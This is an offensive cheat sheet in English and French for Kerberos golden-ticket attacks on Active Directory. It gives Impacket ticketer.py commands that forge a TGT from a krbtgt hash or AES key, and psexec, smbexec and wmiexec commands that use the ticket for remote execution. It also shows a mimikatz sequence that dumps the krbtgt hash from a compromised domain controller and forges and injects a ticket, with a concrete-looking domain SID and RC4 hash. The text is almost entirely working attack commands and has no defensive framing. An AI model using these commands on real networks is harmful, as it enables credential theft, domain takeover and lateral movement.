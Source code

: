 # golden ticket

## To generate the TGT with NTLM

python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

## To generate the TGT with AES key

python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

## Set the ticket for impacket use

export KRB5CCNAME=<TGS_ccache_file>

## Execute remote commands with any of the following by using the TGT

python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

## sur le DC compromi lancer mimikatz

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /inject /name:krbtgt
Domain : <...SNIP...>


kerberos::golden /domain:dimotrans.local /sid:S-1-5-21-660215690-1101628366-3719296297 /user:oturan /id:500 /rc4:371c7b9ee2e498b84aaa9dd166f54789 /ptt

• User – The name of the user account the ticket will be created for. This can be a real account name but it doesn’t have to be.
• ID – The RID of the account you will be impersonating. This could be a real account ID, such as the default administrator ID of 500, or a fake ID.
• Groups – A list of groups to which the account in the ticket will belong. This will include Domain Admins by default so the ticket will be created with the maximum privileges.
• SIDs – This will insert a SID into the SIDHistory attribute of the account in the ticket. This is useful to authenticate across domains
• RC4 = hash NTLMmimik

pour utiliser le ticket lancer un prompt:

misc::cmd 

whoami /all


